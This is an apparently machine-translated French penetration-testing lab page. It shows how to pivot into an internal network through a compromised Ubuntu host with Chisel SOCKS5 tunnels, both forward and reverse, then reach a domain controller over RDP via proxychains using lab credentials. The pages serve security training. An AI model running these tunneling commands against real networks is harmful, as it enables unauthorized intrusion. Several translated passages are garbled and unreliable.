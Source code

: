 Socks5 tunnels avec chisel
===========================

* * * * *

[Chisel] (https://github.com/jpillora/chisel) est un outil de tunneling basé sur TCP / UDP écrit dans [Go] (https://go.dev/) qui utilise HTTP pour transporter des données sécurisées en utilisant SSH. «Chisel» peut créer une connexion du tunnel client-serveur dans un environnement restreint du pare-feu. Considérons un scénario où nous devons tuer notre trafic vers un serveur Web sur le réseau `172.16.5.0` /` 23` (réseau interne). Nous avons le contrôleur de domaine avec l'adresse `172.16.5.19`. Ce n'est pas directement accessible à notre hôte d'attaque car notre hôte d'attaque et le contrôleur de domaine appartiennent à différents segments de réseau. Cependant, puisque nous avons compromis le serveur Ubuntu, nous pouvons démarrer un serveur Chisel dessus qui écoutera sur un port spécifique et transférer notre trafic vers le réseau interne via le tunnel établi.

Configuration et utilisation du ciseau
-------------------------

Avant de pouvoir utiliser Chisel, nous devons l'avoir sur notre hôte d'attaque. Si nous n'avons pas de ciselier sur notre hôte d'attaque, nous pouvons cloner le repo du projet en utilisant la commande directement ci-dessous:

#### Cloning Chisel

Ciseau de clonage

```
dsgsec@htb[/htb]$ git clone https://github.com/jpillora/chisel.git
```

Nous aurons besoin du langage de programmation «GO» installé sur notre système pour construire le ciseau binaire. Avec GO installé sur le système, nous pouvons nous déplacer dans ce répertoire et utiliser «Go Build» pour construire le ciseau binaire.

#### Construire le burin binaire

Construire le ciseau binaire

```
dsgsec@htb[/htb]$ cd chisel
go build

```

Il peut être utile d'être conscient de la taille des fichiers que nous transférons sur des cibles sur les réseaux de notre client, non seulement pour des raisons de performances, mais aussi en considérant la détection. Deux ressources bénéfiques pour compléter ce concept particulier sont le billet de blog de l'OXDF "[tunneling avec Chisel et SSF] (https://0xdf.gitlab.io/2020/08/10/tunnel-with-chisel-and-ssf-pdate.html ) "Et la procédure pas à pas de la boîte d'Ippsec« rougeâtre ». IppSec commence son explication de Chisel, construisant le binaire et rétrécissant la taille du binaire à la marque 24:29 de sa [vidéo] (https://www.youtube.com/watch?v=yp4Oxoqibam&t=1469s).

Une fois le binaire construit, nous pouvons utiliser «SCP» pour le transférer à l'hôte pivot cible.

#### Transfert de bulleau binaire à Host Pivot

Transfert de ciselier binaire à Host Pivot

```
dsgsec@htb[/htb]$ scp chisel ubuntu@10.129.202.64:~/
 
ubuntu@10.129.202.64's password: 
chisel                                        100%   11MB   1.2MB/s   00:09    

```

Ensuite, nous pouvons démarrer le serveur / écouteur Chisel.

#### exécuter le serveur Chisel sur l'hôte pivot

Exécution du serveur Chisel sur l'hôte Pivot

```
ubuntu@WEB01:~$ ./chisel server -v -p 1234 --socks5

2022/05/05 18:16:25 server: Fingerprint Viry7WRyvJIOPveDzSI2piuIvtu9QehWw9TzA3zspac=
2022/05/05 18:16:25 server: Listening on http://0.0.0.0:1234

```

L'auditeur Chisel écoutera les connexions entrantes sur le port `1234` à l'aide de socks5 (` --socks5`) et le transfèrent à tous les réseaux accessibles à partir de l'hôte pivot. Dans notre cas, l'hôte Pivot a une interface sur le réseau 172.16.5.0/23, qui nous permettra d'atteindre les hôtes sur ce réseau.

Nous pouvons démarrer un client sur notre hôte d'attaque et nous connecter au serveur Chisel.

#### Connexion au serveur Chisel

Connexion au serveur Chisel

```
dsgsec@htb[/htb]$ ./chisel client -v 10.129.202.64:1234 socks

2022/05/05 14:21:18 client: Connecting to ws://10.129.202.64:1234
2022/05/05 14:21:18 client: tun: proxy#127.0.0.1:1080=>socks: Listening
2022/05/05 14:21:18 client: tun: Bound proxies
2022/05/05 14:21:19 client: Handshaking...
2022/05/05 14:21:19 client: Sending config
2022/05/05 14:21:19 client: Connected (Latency 120.170822ms)
2022/05/05 14:21:19 client: tun: SSH connected

```

Comme vous pouvez le voir dans la sortie ci-dessus, le client Chisel a créé un tunnel TCP / UDP via HTTP sécurisé à l'aide de SSH entre le serveur Chisel et le client et a commencé à écouter sur le port 1080. Nous pouvons désormais modifier notre fichier proxychains.conf situé sur `/ etc / proxychains.conf` et ajouter le port` 1080` à la fin afin que nous puissions utiliser ProxyChains pour pivoter en utilisant le tunnel créé entre le port 1080 et le tunnel SSH.

#### Édition et confirmation proxychains.conf

Nous pouvons utiliser n'importe quel éditeur de texte que nous aimerions modifier le fichier proxychains.conf, puis confirmer nos modifications de configuration à l'aide de «Tail».

Édition et confirmation proxychains.conf

```
dsgsec@htb[/htb]$ tail -f /etc/proxychains.conf 

#
#       proxy types: http, socks4, socks5
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080

```

Maintenant, si nous utilisons ProxyChains avec RDP, nous pouvons nous connecter au DC sur le réseau interne via le tunnel que nous avons créé pour l'hôte Pivot.

#### pivotant au DC

Pivotant au DC

```
dsgsec@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

* * * * *

Pivot inversé ciselier
--------------------

Dans l'exemple précédent, nous SED LA MACHINE COMPROMISÉ (UBUNTU) comme serveur Chisel, inscrivant sur le port 1234. Pourtant, il peut y avoir des scénarios où les règles de pare-feu restreignent les connexions entrantes à notre cible compromise. Dans de tels cas, nous pouvons utiliser le burin avec l'option inverse.

Lorsque le serveur Chisel a activé `` --reverse ', les télécommandes peuvent être préfixées avec `r` pour indiquer inversé. Le serveur écoutera et acceptera les connexions, et ils seront proxés via le client, qui a spécifié la télécommande. Remotes inverses spécifiant `R: Socks` écoutera le port de Socks par défaut du serveur (1080) et terminera la connexion au proxy SOCKS5 interne du client.

Nous démarrerons le serveur dans notre hôte d'attaque avec l'option `--reverse`.

#### Démarrage du serveur Chisel sur notre hôte d'attaque

Démarrage du serveur Chisel sur notre hôte d'attaque

```
dsgsec@htb[/htb]$ sudo ./chisel server --reverse -v -p 1234 --socks5

2022/05/30 10:19:16 server: Reverse tunnelling enabled
2022/05/30 10:19:16 server: Fingerprint n6UFN6zV4F+MLB8WV3x25557w/gHqMRggEnn15q9xIk=
2022/05/30 10:19:16 server: Listening on http://0.0.0.0:1234
```

Ensuite, nous nous connectons à partir de l'Ubuntu (hôte pivot) à notre hôte d'attaque, en utilisant l'option `r: socks`

Démarrage du serveur Chisel sur notre hôte d'attaque

```
ubuntu@WEB01$ ./chisel client -v 10.10.14.17:1234 R:socks

2022/05/30 14:19:29 client: Connecting to ws://10.10.14.17:1234
2022/05/30 14:19:29 client: Handshaking...
2022/05/30 14:19:30 client: Sending config
2022/05/30 14:19:30 client: Connected (Latency 117.204196ms)
2022/05/30 14:19:30 client: tun: SSH connected
```

Nous pouvons utiliser n'importe quel éditeur que nous aimerions modifier le fichier proxychains.conf, puis confirmer nos modifications de configuration à l'aide de «Tail».

#### Édition et confirmation proxychains.conf

Édition et confirmation proxychains.conf

```
dsgsec@htb[/htb]$ tail -f /etc/proxychains.conf 

[ProxyList]
# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080 
```

Si nous utilisons des proxychaines avec RDP, nous pouvons nous connecter au DC sur le réseau interne via le tunnel que nous avons créé pour l'hôte pivot.

Édition et confirmation proxychains.conf

```
dsgsec@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```